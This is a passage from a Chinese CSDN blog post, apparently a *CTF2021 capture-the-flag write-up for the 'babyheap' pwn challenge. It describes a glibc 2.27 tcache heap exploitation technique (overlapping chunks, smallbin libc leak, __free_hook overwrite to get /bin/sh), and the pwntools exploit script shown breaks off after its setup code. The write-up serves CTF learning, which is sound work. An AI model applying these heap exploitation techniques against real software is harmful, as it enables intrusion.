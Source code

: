 

# *CTF2021部分题目解题思路及exp_liucc09的博客-CSDN博客

> 来源：[https://blog.csdn.net/liucc09/article/details/112784015](https://blog.csdn.net/liucc09/article/details/112784015)

# babyheap

这是pwn里面唯一的传统heap题，使用的是新的libc2.27，chunk被free到tcache后bk位置会被写入一个地址，再次free时如果bk有这个地址会和tcache里的所有chunk挨个比较，发现一样的就报double free tcache 2，因此要再free之后把bk置零就行了。

题目第一个坑，在edit方法里面读入数据是从chunk+8的位置的开始写，也就是不让修改fd，这导致虽然有UAF，也无法很方便的实现任意地址写。解决方法为构造重叠的chunk，从而改到tcache中chunk的fd。

题目第二个坑，chunk大小不能大于0x60，因此无法释放chunk到unsorted bin，也就无法通过unsorted bin泄漏libc地址。方法为通过题目中的方法分配一个0x400的chunk，这会触发回收机制，faskbin会在合并后被扔到smallbin，从而通过smallbin泄漏libc地址。

因为我不想用one_gadget，所以既要写入一个/bin/sh\x00到fd，又要修改__free_hook，因此我构造了两条tcache链条。

exp：

```
from pwn import *

import time

pe = "./pwn"
arch = 'amd64'

context.update(arch=arch,os='linux',log_level='DEBUG')

DEBUG = False
elf = ELF(pe)
if DEBUG:
	if arch=='amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')

	r = process(pe)

else:
    libc = ELF('./libc.so.6')
    r = remote('52.152.231.198',8081)

se      = lambda data               :r.send(data) 
sa      = lambda delim,data         :r.sendafter(delim, data)
sl      = lambda data               :r.sendline(data)
sla     = lambda delim,data         :r.sendlineafter(delim, data)
sea     = lambda delim,data         :r.sendafter(delim, data)
rc      = lambda numb=4096          :r.recv(numb)
rl      = lambda                    :r.recvline()
ru      = lambda delims			    :r.recvuntil(delims)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
ri      = lambda                    :r.interactive()
info_addr = lambda tag, addr        :r.info(tag + ': {:#x}'.format(addr))

def debug(addr=0,PIE=True):
    time.sleep(1)

    if PIE:

        text_base = r.libs()[r.cwd + r.argv[0].strip('.')]
```